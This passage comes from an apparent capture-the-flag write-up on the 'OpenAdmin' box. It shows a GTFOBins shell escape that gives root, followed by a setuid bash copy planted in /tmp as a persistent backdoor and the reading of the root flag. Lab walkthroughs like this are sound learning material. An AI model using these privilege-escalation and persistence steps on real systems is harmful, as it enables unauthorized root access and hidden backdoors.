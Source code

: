 So I tried the GTFObins suggestion out:

```bash
Command to execute: reset; sh 1>&0 2>&0# ls
user.txt
#  Cancel
# ls
user.txt
# id
uid=0(root) gid=0(root) groups=0(root)
```

I have a root shell, but this shell is pretty unstable, so I create rootbash (I know I could just change the root password or create a copy of the root user, but I think for this box this is enough):

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

Rootbash is now working, I try it on the SSH session as user jimmy:

```bash
jimmy@openadmin:/var/www/internal$ cd /tmp
jimmy@openadmin:/tmp$ ls
rootbash
systemd-private-35c536d8ed254533953f55d6d5996e6a-apache2.service-08sYEC
systemd-private-35c536d8ed254533953f55d6d5996e6a-systemd-resolved.service-YlyeVq
systemd-private-35c536d8ed254533953f55d6d5996e6a-systemd-timesyncd.service-oaO5IA
tmux-1000
vmware-root_612-2731021090
jimmy@openadmin:/tmp$ ./rootbash -p
rootbash-4.4# whoami
root
rootbash-4.4#
```

That's it. I have a root shell that is persistent. To get root access on the system, you only have to use the ona RCE and then call rootbash.

### Root Flag

---

Not much to say here, just get the flag:

```bash
rootbash-4.4# cat /root/root.txt
0643**************************20
```